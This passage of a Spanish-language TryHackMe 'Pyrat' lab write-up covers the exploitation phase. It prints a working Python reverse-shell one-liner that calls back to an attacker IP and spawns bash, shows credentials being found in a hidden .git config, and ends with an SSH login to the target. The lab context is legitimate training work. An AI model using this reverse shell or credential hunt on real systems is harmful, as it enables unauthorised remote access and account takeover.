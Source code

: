 ## Explotación
Tras identificar el punto de entrada, ejecutamos una reverse shell en **Python** para ganar acceso a la máquina:
```python
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.XX.XX.XX",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | nc 10.10.216.28 8000
```
![](../assets/img/pyrat-tryhackme-writeup/2.png)

Dentro de la máquina intentamos acceder a la carpeta del usuario *think*, pero no tenemos acceso, realizamos un pequeño reconocimiento, no nos costará encontrar el directorio oculto de *.git* dentro de */opt/dev*, allí encontraremos las credenciales del usuario *think*:

```
$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = **************
$ pwd
pwd
/opt/dev/.git
$ 
``` 

Con las credenciales de *think* en nuestro poder, ya solo nos queda conectarnos por **SSH** y leer la flag de usuario:
```
> ssh think@10.10.216.28
think@10.10.216.28's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 05 Oct 2024 12:16:51 PM UTC

  System load:  0.0               Processes:             116
  Usage of /:   46.8% of 9.75GB   Users logged in:       0
  Memory usage: 44%               IPv4 address for eth0: 10.10.216.28
  Swap usage:   0%

```